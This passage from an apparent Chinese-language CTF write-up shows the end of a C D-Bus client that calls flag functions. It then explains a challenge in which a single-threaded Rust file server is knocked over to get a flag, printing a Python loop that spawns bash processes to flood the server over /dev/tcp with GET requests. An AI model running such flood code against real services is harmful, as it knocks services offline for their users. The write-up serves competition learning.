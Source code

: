 ```c
    GError *error = NULL;
    const char *version;
    GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
                      G_DBUS_PROXY_FLAGS_NONE,
                      NULL,				/* GDBusInterfaceInfo */
                      BUS_NAME,		/* name */
                      OBJ_PATH,	/* object path */
                      INTERFACE,	/* interface */
                      NULL,				/* GCancellable */
                      &error);

    // send_a_method_call(connection,"Hello, D-Bus");
    if (argc > 1) {
        getflag3(proxy);
    } else {
        flag3(proxy, environ);
    }

    return 0;
}
```

## ![general](https://img.shields.io/badge/general-af2447) 动画分享

这个题用rust实现了一个极简的文件HTTP服务器，然后跑在一个chroot的0.12旧版zutty终端模拟器下。我们可以提交一个程序和它交互。把服务器干死（不能正常响应或者退出）可以获得flag1，flag2则需要越权读取。

首先这个服务器是基于TcpStream的，我不太了解Rust，但这个应该是单线程的，并且后面请求文件的时候会一次把整个文件读出来。所以这样没有并发能力的服务器应该非常弱CC这种DoS攻击，我们只要popen出来一堆请求疯狂去GET chroot里面最大的那个文件就行了。一个进程就能实现这种DoS

```py
for i in range(40):
    try:
        subprocess.Popen(['bash', '-c', "while true; do echo GET /usr/lib/x86_64-linux-gnu/libLLVM-11.so.1; done >/dev/tcp/localhost/8000"], stdout=subprocess.DEVNULL)
        # subprocess.Popen(['python3', __file__, 'sub', str(i)], stdout=subprocess.DEVNULL)
        # for j in range(40):
        #     connect_only()

    except BlockingIOError:
        break
    except:
        raise
```
